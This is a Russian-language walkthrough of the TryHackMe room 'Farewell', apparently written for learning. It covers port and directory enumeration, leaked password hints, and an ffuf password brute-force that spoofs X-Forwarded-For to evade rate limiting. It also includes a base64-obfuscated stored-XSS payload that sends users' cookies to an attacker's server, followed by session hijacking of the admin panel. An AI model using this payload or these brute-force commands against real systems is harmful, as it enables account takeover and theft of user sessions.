


# Farewell

> Write-up по комнате `Farewell` на платформе TryHackMe. Основная цепочка прохождения связана с анализом веб-приложения, раскрытием подсказок к паролям, подбором учётных данных и эксплуатацией XSS для получения пользовательских cookie.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Linux (Ubuntu) |
| Категория | Web |
| Основные техники | Enumeration, password hint disclosure, password brute force, XSS, session hijacking |

---

## Краткое резюме

Первоначальное сканирование выявило доступные сервисы `SSH` и `HTTP`. Дальнейшее исследование было сосредоточено на веб-приложении, где анализ механизма авторизации показал, что сервер раскрывает подсказки к паролям существующих пользователей.

Для пользователя `deliver11` подсказка существенно сокращала пространство поиска, поэтому был сформирован специализированный словарь и выполнен перебор пароля через `/auth.php`. После успешной авторизации стал доступен функционал отправки сообщений. Проверка этого функционала выявила возможность выполнения JavaScript-кода в контексте других пользователей. С помощью XSS были получены пользовательские cookie, после чего подмена сессионной cookie позволила получить доступ к `/admin.php`.

Цепочка прохождения:

`сканирование → веб-разведка → раскрытие подсказок к паролям → подбор пароля → авторизация → XSS → получение cookie → подмена сессии → доступ к административной панели`

---

## Разведка

### Сканирование портов

Для первоначальной разведки я выполнил полное TCP-сканирование с определением версий доступных сервисов с помощью `Nmap`:

```bash
nmap -n -sV -p- TARGET_IP
```

Результат:

```text
Nmap scan report for TARGET_IP
Host is up (0.00037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Сканирование выявило два открытых порта:

- `22/tcp` — `OpenSSH 9.6p1`;
- `80/tcp` — `Apache HTTP Server 2.4.58`.

Наличие HTTP-сервиса на `80/tcp` определило дальнейшее направление исследования в сторону веб-приложения.

### Поиск директорий и файлов

Для обнаружения доступных ресурсов веб-сервера был выполнен перебор директорий и файлов с помощью `Gobuster`:

```bash
gobuster dir -u http://TARGET_IP -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,js,html,py,log,txt,log,bak,old,conf,zip,sql -a "Mozilla/5.0"
```

Результат:

```text
/.php                 (Status: 403) [Size: 780]
/.html                (Status: 403) [Size: 780]
/index.php            (Status: 200) [Size: 5246]
/info.php             (Status: 200) [Size: 87587]
/admin.php            (Status: 200) [Size: 2343]
/status.php           (Status: 200) [Size: 3467]
/javascript           (Status: 301) [Size: 319] [--> http://TARGET_IP/javascript/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/check.js             (Status: 200) [Size: 2027]
/403.html             (Status: 200) [Size: 780]
/auth.php             (Status: 405) [Size: 30]
/dashboard.php        (Status: 302) [Size: 0] [--> /]
/.php                 (Status: 403) [Size: 780]
/.html                (Status: 403) [Size: 780]
/server-status        (Status: 403) [Size: 780]
```

Перебор обнаружил несколько PHP-страниц, включая `/admin.php`, `/auth.php`, `/dashboard.php` и `/status.php`. Однако сами результаты перечисления не предоставили непосредственной точки входа, поэтому дальнейший анализ был сосредоточен на логике веб-приложения.

---

## Анализ веб-приложения

### Исследование механизма авторизации
Веб-приложение анализировалось через встроенный браузер `Burp Suite`.

На главной странице расположена форма авторизации.


Анализ логики обработки запросов показал, что при неудачной попытке авторизации сервер возвращает информацию о пользователе, включая дату последнего изменения пароля и подсказку к нему.

Для пользователей, представленных на странице авторизации, были получены следующие ответы:

```json
{"error":"auth_failed","user":{"name":"deliver11","last_password_change":"2025-09-10 11:00:00","password_hint":"Capital of Japan followed by 4 digits"}}
```

```json
{"error":"auth_failed","user":{"name":"nora","last_password_change":"2025-08-01 13:45:00","password_hint":"lucky number 789"}}
```

```json
{"error":"auth_failed","user":{"name":"adam","last_password_change":"2025-10-21 09:12:00","password_hint":"favorite pet + 2"}}
```

```json
{"error":"auth_failed","user":{"name":"admin","last_password_change":"2025-10-31 19:03:00","password_hint":"the year plus a kind send-off"}}
```

Раскрытие таких подсказок существенно уменьшает пространство возможных паролей. Наиболее удобной целью для перебора оказался пользователь `deliver11`, поскольку его пароль должен был соответствовать шаблону:

```text
Capital of Japan followed by 4 digits
```

### Формирование словаря паролей

На основании полученной подсказки с помощью `Crunch` был сформирован словарь, содержащий варианты с `Tokyo` и `tokyo`, после которых следуют четыре цифры:

```bash
crunch 9 9 numeric -t Tokyo%%%% > pwds.txt
crunch 9 9 numeric -t tokyo%%%% >> pwds.txt
```

Анализ запросов в `Burp Suite` также показал, что обработка авторизации выполняется через endpoint `/auth.php`.

### Перебор пароля

Для варьирования значения клиентского IP в заголовке `X-Forwarded-For` при обходе фильтрации был предварительно создан файл со случайными IP-адресами:

```bash
for i in {1..20001}; do echo "$((RANDOM%255)).$((RANDOM%255)).$((RANDOM%255)).$((RANDOM%255))" >> headers.txt; done
```

Перебор пароля пользователя `deliver11` был выполнен с помощью `ffuf`:

```bash
ffuf -u http://TARGET_IP/auth.php -X POST -d "username=deliver11&password=W1" -H "X-Forwarded-For: W2" -H "User-Agent: Mozilla/5.0" -w pwds.txt:W1 -w headers.txt:W2 -fs 23 -mode pitchfork -c -fc 403
```

В режиме `pitchfork` значения из `pwds.txt` и `headers.txt` подставлялись параллельно: `W1` использовался как пароль, а `W2` — как значение заголовка `X-Forwarded-For`.

В результате перебора был найден корректный пароль пользователя `deliver11`. После успешной авторизации стал доступен первый флаг.



---

## Эксплуатация XSS

После авторизации в приложении стал доступен функционал отправки сообщений. Возможность размещать пользовательский контент представляла потенциальную точку для проверки XSS.

Для получения входящих HTTP-запросов на машине атакующего был запущен простой HTTP-сервер:

```bash
python3 -m http.server 9917
```

Затем в поле сообщения была отправлена следующая полезная нагрузка:

```html
<iframe onload="eval(atob('ZmV0Y2goImh0dHA6Ly8xMC4xMTIuMTE0Ljg5Ojk5MTcvIitkb2N1bWVudC5jb29raWUp'))">
```

Полезная нагрузка предназначалась для отправки значения `document.cookie` на HTTP-сервер атакующего.

После размещения сообщения на сервер атакующего `ATTACKER_IP:9917` начали поступать HTTP-запросы, содержащие cookie пользователей. Это подтвердило выполнение внедрённого JavaScript-кода в контексте пользовательских сессий.

---

## Получение доступа к административной панели

Полученная cookie была использована для подмены текущей пользовательской сессии.

После замены cookie, перезагрузки страницы и перехода по адресу:

```text
/admin.php
```

стал доступен административный раздел приложения, где находился второй флаг.

---

## Итог

Прохождение комнаты `Farewell` было полностью сосредоточено на веб-приложении. Первоначальная разведка выявила HTTP-сервис, после чего анализ механизма авторизации обнаружил раскрытие подсказок к паролям пользователей.

Подсказка пользователя `deliver11` позволила сформировать небольшой специализированный словарь и подобрать пароль через `/auth.php`. Полученный доступ открыл функционал отправки сообщений, который оказался уязвим к XSS. Внедрённый JavaScript позволил получить пользовательские cookie, а последующая подмена сессии предоставила доступ к `/admin.php`.

---

## Ключевые выводы

- Раскрытие подсказок к паролям через ответы механизма авторизации может значительно сократить пространство поиска и сделать подбор учётных данных практичным.
- Специализированный словарь, построенный на основе известного шаблона пароля, эффективнее общего перебора большого набора значений.
- Использование клиентского заголовка `X-Forwarded-For` в механизмах ограничения запросов требует осторожности, поскольку контролируемое пользователем значение может использоваться для обхода такой фильтрации.
- Возможность внедрения JavaScript в пользовательские сообщения создаёт риск компрометации сессионных cookie.
- Получение действующей cookie привилегированного пользователя может позволить получить его уровень доступа без знания пароля.

---

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Сканирование TCP-портов и определение версий сервисов |
| `Gobuster` | Перебор директорий и файлов веб-сервера |
| `Burp Suite` | Анализ веб-приложения и запросов механизма авторизации |
| `Crunch` | Генерация специализированного словаря паролей |
| `ffuf` | Перебор пароля через `/auth.php` |
| `Python http.server` | Приём HTTP-запросов при проверке XSS |

---

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.